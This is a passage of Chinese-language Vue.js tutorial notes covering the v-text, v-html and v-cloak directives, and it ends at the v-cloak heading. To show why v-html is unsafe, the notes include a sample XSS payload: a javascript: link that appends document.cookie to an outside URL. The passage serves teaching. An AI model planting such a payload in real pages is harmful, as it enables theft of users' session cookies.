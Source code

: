 


### 10.内置指令

#### 10.1 v-text指令

>渲染文本内容

##### 核心代码

```html
<div id="root">
   <h2 v-text="name">写了和没写一样，只显示v-text的文本内容</h2>
</div>
<script>
const vm = new Vue({
        el: '#root',
        data: {
            name: 'wly'
        }
    });
</script>
```

#### 10.2 v-html指令

>渲染包括html内容
>
>弊端：v-html有严重的安全性问题，容易导致XSS攻击

##### 核心代码

```html
<div id="root">
   <h2 v-html="msg">写了和没写一样</h2>
</div>
<script>
 const vm = new Vue({
    el:'#root',
    data:{
        //跳转的地址可能是个不好的地址，比如恶意网址，它拿到我们的cookie
        msg:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>点我</a>'
    }
 });
</script>
```

#### 10.3 v-cloak指令

>解决网速慢的时候，未经解析的东西比如{{name}}插值语法， 会先显示{{name}}，然后过一会才刷新
>
>这个的话只有当插值语法的内容渲染时才会显示，未被渲染时内容不显示。

##### 核心代码
